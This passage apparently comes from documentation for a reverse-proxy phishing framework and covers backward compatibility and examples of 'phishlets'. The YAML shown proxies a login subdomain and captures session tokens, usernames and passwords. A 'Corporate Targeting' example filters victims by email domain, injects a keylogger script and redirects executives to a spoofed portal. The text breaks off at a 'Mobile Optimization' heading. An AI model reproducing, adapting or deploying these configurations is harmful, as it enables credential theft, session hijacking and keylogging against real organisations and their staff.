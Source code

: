 ## Backward Compatibility

### Legacy Phishlet Support

Existing phishlets continue to work without modification. Advanced features are optional:

```yaml
# Legacy phishlet (still works)
min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'example.com', session: true}
auth_tokens:
  - domain: '.example.com'
    keys: ['session']
credentials:
  username: {key: 'user', search: '(.*)'}
  password: {key: 'pass', search: '(.*)'}
```

### Migration Path

1. **Phase 1**: Continue using existing phishlets
2. **Phase 2**: Add conditional logic to existing phishlets
3. **Phase 3**: Implement multi-page flows for complex targets
4. **Phase 4**: Use versioning for phishlet management

## Examples

### Corporate Targeting

```yaml
conditions:
  - name: "target_company"
    type: "email_domain"
    values: ["targetcorp.com"]
    actions:
      - type: "template"
        value: "corporate_sso"
      - type: "js_inject"
        value: "advanced_keylogger.js"
  
  - name: "executives"
    type: "custom"
    values: ["role=executive"]
    actions:
      - type: "redirect"
        value: "https://executive-portal.targetcorp.com"
```

### Mobile Optimization
